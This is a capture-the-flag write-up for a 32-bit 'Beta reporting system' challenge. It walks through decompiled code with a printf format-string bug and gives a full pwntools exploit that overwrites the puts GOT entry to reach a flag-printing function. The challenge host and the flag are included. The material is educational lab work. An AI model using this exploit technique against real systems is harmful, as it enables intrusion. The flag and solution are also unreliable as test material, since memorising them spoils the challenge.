

# Beta reporting system

> Points: 995 [1000]

## Description

>The developer working for COViD that we arrested refused to talk, but we found a program that he was working on his laptop. His notes have led us to the server where the beta is currently being hosted. It is likely that there are bugs in it as it is a beta.
>
>Note: ASLR is enabled on the OS. PIE is not enabled.
>
>Please view this Document for download instructions.
>
>nc yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg 30121

## Solution
This challenge was a difficult to identify and carry out the string format vulnerability. It will require knowledge on GOT and how string formats attacks are possible to carry out as well as how to carry basic string format attacks.

Throughout this write up we will be using the following tools to assist us:
- gdb
- pwndbg
- gef
- ghidra 
- cutter
- IDA pro
- pwntools


Ghidra and cutter were mainly used for check decompiled code and IDA was mainly used during the exploitation process.

### Basic checks
We will first take look at basic securities on the binary using the `checksec` command from pwntools.

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
Wow! **NX** and **Canary** are enabled, this means we might have to find a way to bypass the stack canary.

### Reversing
Although this is reversing we will be pretty much looking at the decompiled code from IDA. The `main` function pretty much calls the `userchoice` function so thats where we will start.

The **userchoice** function is basically here for the user to make choices. Let check out what each function does.
```c
oid userchoice()
{
  char buf; // [esp+4h] [ebp-14h]
  unsigned int v1; // [esp+Ch] [ebp-Ch]

  v1 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while ( 1 )
  {
    menu();
    read(0, &buf, 8u);
    switch ( atoi(&buf) )
    {
      case 1:
        makeareport();
        break;
      case 2:
        viewreport();
        break;
      case 3:
        deletereport();
        break;
      case 4:
        magicfunction();
        break;
      case 5:
        exit(0);
        return;
      default:
        puts("Wrong choice. Please enter again: ");
        break;
    }
  }
}
```
 
**makeareport** function creates the report.

Things to take note
- `0x1F4` was allocated in the heap via malloc
- `0x1F4` bytes was read so it might be possible create a string without a null terminator and leak some values
- dword_804B084 should be an array
- reportlist should also be an array

For this function the key things to note is that the comment string is located in the heap not the stack

```c
int makeareport()
{
  puts("Please enter the description of the report:");
  comment = malloc(0x1F4u);
  read(0, comment, 0x1F4u);
  dword_804B084[2 * reporttotalnum] = reporttotalnum + 1;
  (&reportlist)[2 * reporttotalnum] = (char *)comment;
  printf("Report created. Report ID is %d\n", reporttotalnum + 1);
  return reporttotalnum++ + 1;
}
```
**viewreport** takes in a username and the report id and prints the respective report.

Things to note
- This function is mostly secure in terms of length so overflows are not really possible
- The username input is on the **stack**
- ***The printf function does not take in a string format it uses the variable directly***

This function here has a clear *printf* (`printf((&reportlist)[2 * (v1 - 1)]);`) string format vulnerability (although we were not able to spot this as we were focused on looking for overflows) and more importantly the username is stored on the *stack*. (The string for the string format is stored on the heap)

***Note: string format vulnerability prints/uses values in the stack not the heap***

```c
int viewreport()
{
  int v1; // [esp+8h] [ebp-120h]
  unsigned int i; // [esp+Ch] [ebp-11Ch]
  char v3[4]; // [esp+10h] [ebp-118h]
  char nptr; // [esp+14h] [ebp-114h]
  char s[256]; // [esp+1Ch] [ebp-10Ch]
  unsigned int v6; // [esp+11Ch] [ebp-Ch]

  v6 = __readgsdword(0x14u);
  v1 = -1;
  puts("Please enter your name: ");
  fgets(s, 256, stdin);
  s[strcspn(s, "\n")] = 0;
  printf("Welcome %s!\n", s);
  for ( i = 0; i <= 3; ++i )
    v3[i] = s[i];
  while ( v1 )
  {
    puts("Please enter report number or press 0 to return to menu: ");
    fgets(&nptr, 8, stdin);
    v1 = atoi(&nptr);
    if ( v1 >= 0 && v1 <= reporttotalnum )
    {
      if ( v1 )
      {
        puts("Report details: ");
        printf((&reportlist)[2 * (v1 - 1)]);
      }
      else
      {
        puts("Returning to menu!");
      }
    }
    else
    {
      puts("invaild report number\n");
    }
  }
  return 0;
}
```
**deletereport** TBH we don't know what this function is for lol.

This function pretty much does nothing.
```c
unsigned int deletereport()
{
  unsigned int i; // [esp+0h] [ebp-118h]
  int v2[31]; // [esp+4h] [ebp-114h]
  int v3[31]; // [esp+80h] [ebp-98h]
  unsigned int v4; // [esp+FCh] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(v2, "&", sizeof(v2));
  for ( i = 0; i <= 0x1E; ++i )
    v3[i] = v2[i] ^ 0x41;
  puts("Delete Report is work in progress");
  return __readgsdword(0x14u) ^ v4;
}
```

**magicfunction** this function was a helper to fill the global variable with the word "flag"(in the code it's written backwards, little endian)

```c
void magicfunction()
{
  *(_DWORD *)magic = 'galf';
}
```

There is one more function that is required to complete the challenge

It is the **unknownfunction** that uses the magic global variable above to print the flag
```c
void __noreturn unknownfunction()
{
  int fd; // ST18_4
  char buf; // [esp+Dh] [ebp-2Bh]
  unsigned int v2; // [esp+2Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  fd = open(magic, 0);
  read(fd, &buf, 0x1Fu);
  close(fd);
  printf("%s", &buf);
  exit(0);
}
```

### Exploiting
This is the idea
1. We want to run the magicfunction
2. Put a string format in the `makereport` function
3. Put the *address* we want to overwrite in the username of the `viewreport` 
4. Give the id to our report and trigger the vulnerability in the printf in the `viewreport`

What will happen is that printf will write the number of bytes we printed to the *address* we want and overwrite it. This will be our write primitive.

The next question is what *address* do we want to input into the username to write to?

Usually while we can write to the stack, heap and bss, the GOT(global offset table) is also a viable option since Full RELRO was not enable (`RELRO:    Partial RELRO`)

we can easily find the got address with `pwntools` and `pwndbg` with the got after the start to run the binary
```bash
pwndbg> got
                                                                                                                                                                                                                                           
GOT protection: Partial RELRO | GOT functions: 14                                                                                                                                                                                          
                                                                                                                                                                                                                                           
[0x804b00c] read@GLIBC_2.0 -> 0xf7ec1e80 (read) ◂— push   esi                                                                                                                                                                              
[0x804b010] printf@GLIBC_2.0 -> 0x80484f6 (printf@plt+6) ◂— 0x868                                                                                                                                                                          
[0x804b014] strcspn@GLIBC_2.0 -> 0x8048506 (strcspn@plt+6) ◂— 0x1068                                                                                                                                                                       
[0x804b018] fgets@GLIBC_2.0 -> 0x8048516 (fgets@plt+6) ◂— 0x1868                                                                                                                                                                           
[0x804b01c] __stack_chk_fail@GLIBC_2.4 -> 0x8048526 (__stack_chk_fail@plt+6) ◂— 0x2068 /* 'h ' */                                                                                                                                          
[0x804b020] malloc@GLIBC_2.0 -> 0x8048536 (malloc@plt+6) ◂— 0x2868 /* 'h(' */                                                                                                                                                              
[0x804b024] puts@GLIBC_2.0 -> 0xf7e40370 (puts) ◂— push   ebp                                                                                                                                                                              
[0x804b028] exit@GLIBC_2.0 -> 0x8048556 (exit@plt+6) ◂— 0x3868 /* 'h8' */                                                                                                                                                                  
[0x804b02c] open@GLIBC_2.0 -> 0x8048566 (open@plt+6) ◂— 0x4068 /* 'h@' */                                                                                                                                                                  
[0x804b030] __libc_start_main@GLIBC_2.0 -> 0xf7deecf0 (__libc_start_main) ◂— call   0xf7f122b9                                                                                                                                             
[0x804b034] setvbuf@GLIBC_2.0 -> 0xf7e40b20 (setvbuf) ◂— call   0xf7f122b9                                                                                                                                                                 
[0x804b038] putchar@GLIBC_2.0 -> 0xf7e423a0 (putchar) ◂— call   0xf7f122b9                                                                                                                                                                 
[0x804b03c] atoi@GLIBC_2.0 -> 0x80485a6 (atoi@plt+6) ◂— 0x6068 /* 'h`' */                                                                                                                                                                  
[0x804b040] close@GLIBC_2.0 -> 0x80485b6 (close@plt+6) ◂— 0x6868 /* 'hh' */     
```

This time we will be going with the puts got address `0x804b024`

### Finally the actual code

After so much explaining we finally have all the parts need to exploit the binary. Lets recap:
1. We want to run the magicfunction
2. Put a string format in the `makereport` function
3. Put the *puts got address* we want to overwrite in the username of the `viewreport` 
4. Give the id to our report and trigger the vulnerability in the printf in the `viewreport` and write the address of `unknownfunction`
5. When call puts , we get a free flag!

So first using pwntools we start some basic set up for local debug and testing and finally the solution

```python
from pwn import *

LOCAL = False
GDB = False

context.binary = "./beta_reporting"
context.terminal =['tmux','splitw','-h']
# initial setup
if GDB and LOCAL:
    p = gdb.debug(context.binary.path, gdbscript='''
    init-pwndbg
    continue
    ''')
elif LOCAL:
    p = process(context.binary.path)
else:
    p = remote("yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg",30121)
```

Next we code the helper function to make our lives abit easier
```python
# helper functions
def makereport(report):
    p.clean()
    p.sendline(str(1))
    p.clean()
    p.sendline(report)
    log.info(p.recv())

def viewreport(name,reportno):
    p.clean()
    p.sendline(str(2))
    p.clean()
    p.sendline(name)
    p.clean()
    p.sendline(reportno)
```
Next we craft our exploit with `fmtstr_payload` a pwntool function that helps to create string format. 

Originally the *username* string (which contains the value of `puts got address`) starts at the 11th position in the stack.  
`fmtstr_payload` uses that as the start point and pads the value of the payload accordingly. However, our string format payload is not on the stack but rather on the heap this time so we -6 from it the adjust the locations accordingly.
`context.binary.got['puts']` is a useful feature from pwntools that gives us the got address of puts directly. Similarly for the unknown function.

```python
# Creating the payload
payload = fmtstr_payload(11-6,{context.binary.got['puts']:context.binary.symbols['unknownfunction']},write_size='short')
# Splitting the payload into puts got address
# Suppose to go into the stack
writelocation = payload[-8:]
# Splitting the payload to get the string format portion 
# Suppose to go into the heap
strfmt = payload[:-8]
```

We initialize the global variable magic by calling the `magicfunction`

```python
# Calling the magicfunction
p.sendline(str(4))
```

Next we send our string format as the contents of the report
```python
# Sending our string format to the heap
makereport(strfmt)
```

Next we set our usename as the got address of puts and trigger the vulnerability write the value of `unknownfunction` to it.
```python
# Sending our puts got address into the username and triggering the exploit
viewreport(writelocation,str(1))
```

Finally when puts is called we can get the flag
```python
# Yay flag!
p.interactive()
```


Finally solution is in [sol.py](sol.py)
```python
from pwn import *

LOCAL = False
GDB = False

context.binary = "./beta_reporting"
context.terminal =['tmux','splitw','-h']
# initial setup
if GDB and LOCAL:
    p = gdb.debug(context.binary.path, gdbscript='''
    init-pwndbg
    continue
    ''')
elif LOCAL:
    p = process(context.binary.path)
else:
    p = remote("yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg",30121)

# helper functions
def makereport(report):
    p.clean()
    p.sendline(str(1))
    p.clean()
    p.sendline(report)
    log.info(p.recv())

def viewreport(name,reportno):
    p.clean()
    p.sendline(str(2))
    p.clean()
    p.sendline(name)
    p.clean()
    p.sendline(reportno)

# Creating the payload
payload = fmtstr_payload(11-6,{context.binary.got['puts']:context.binary.symbols['unknownfunction']},write_size='short')
# Splitting the payload into puts got address
# Suppose to go into the stack
writelocation = payload[-8:]
# Splitting the payload to get the string format portion 
# Suppose to go into the heap
strfmt = payload[:-8]
# debugging
print(strfmt)
p.clean()
# Calling the magicfunction
p.sendline(str(4))
# Sending our string format to the heap
makereport(strfmt)
# Sending our puts got address into the username and triggering the exploit
viewreport(writelocation,str(1))
# Yay flag!
p.interactive()
```
## Flag
`govtech-csg{c0v1d_5y5tem_d0wn!}`